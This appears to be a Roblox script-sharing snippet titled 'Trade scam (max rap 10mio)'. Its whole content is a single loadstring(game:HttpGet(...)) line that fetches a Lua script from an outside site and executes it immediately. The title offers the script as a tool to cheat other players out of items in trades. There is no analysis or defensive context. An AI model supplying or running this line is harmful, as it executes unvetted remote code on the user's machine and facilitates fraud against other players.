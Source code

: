 Trade scam (max rap 10mio)




loadstring(game:HttpGet('https://darkscripts.space/scripts/37b4a35353.lua',true))()
